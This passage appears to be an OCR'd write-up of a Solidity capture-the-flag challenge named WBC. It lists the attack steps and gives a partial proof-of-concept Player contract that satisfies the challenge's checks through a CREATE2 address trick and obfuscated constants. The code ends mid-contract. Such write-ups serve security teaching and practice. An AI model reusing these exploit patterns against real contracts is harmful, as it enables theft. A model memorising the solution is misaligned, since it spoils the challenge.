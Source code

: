 ### Attack steps:

1. Implement a `Player` contract that has four function: `judge()`, `steal()`, `execute()` and `shout()`. These functions must be implemented to satisfy the conditions required by the WBC contract when executing the `ready()` function
2. Find a `salt` that, when used with the `CREATE2` opcode, results in deploying the `Player` contract at an address with a specific suffix.
3. Call the `bodyCheck()` in the constructor function of the `Player` contract.
4. Trigger the `ready()` function.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {WBC} from "src/WBC/WBC.sol";

interface IGame {
    function judge() external view returns (address);
    function steal() external view returns (uint256);
    function execute() external returns (bytes32);
    function shout() external view returns (bytes memory);
}

contract Player is IGame {
    uint256 remainingGas;
    WBC private immutable wbc;

    constructor(address _wbc) {
        wbc = WBC(_wbc);
        wbc.bodyCheck();
    }

    function attack() external {
        wbc.ready();
    }

    function judge() external view returns (address) {
        return 0x0000000000000000000000000000000000000000;
    }

    function steal() external view returns (uint256) {
        uint256 o0o0o0o00oo00o0o0o0o0o0o0o0o0o0o0o0oo0o = 1001000030000000900000604030700200019005002000906;
        uint256 o0o0o0o00o0o0o0o0o0o0o0ooo0o00o0ooo000o = 460501607330902018203080802016083000650930542070;
        uint256 o0o0o00o0oo00oo00o0o0o0o0o0o0o0o0oo0o0o = 256; // 2^8
        uint256 o0oo0o0o0o0o0o0o0o0o00o0oo00o0o0o0o0o0o = 1;

        return uint160(
            o0o0o0o00oo00o0o0o0o0o0o0o0o0o0o0o0oo0o
                + o0o0o0o00o0o0o0o0o0o0o0ooo0o00o0ooo000o * o0o0o00o0oo00oo00o0o0o0o0o0o0o0o0oo0o0o
                - o0oo0o0o0o0o0o0o0o0o00o0oo00o0o0o0o0o0o
        );
    }

    function execute() external returns (bytes32) {
        remainingGas = gasleft();
        return hex"0000000000000000000000000000000000000000000009486974416E6452756E";
    }
```
